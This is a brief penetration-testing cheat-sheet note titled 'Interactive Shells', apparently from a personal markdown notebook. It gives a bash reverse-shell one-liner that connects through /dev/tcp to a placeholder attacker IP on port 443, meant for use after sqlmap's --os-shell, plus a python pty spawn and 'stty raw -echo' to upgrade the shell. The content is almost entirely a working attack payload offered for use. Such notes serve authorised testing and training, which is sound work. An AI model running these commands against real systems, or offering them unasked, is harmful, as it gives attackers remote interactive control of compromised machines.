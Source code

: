 # Interactive Shells

Reverse Shell Payload after --os-shell from sqlmap :&#x20;

```bash
bash -c "bash -i >& /dev/tcp/%attacker_box_IP%/443 0>&1"
```

Upgrade to an interactive shell :

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
stty raw -echo
```

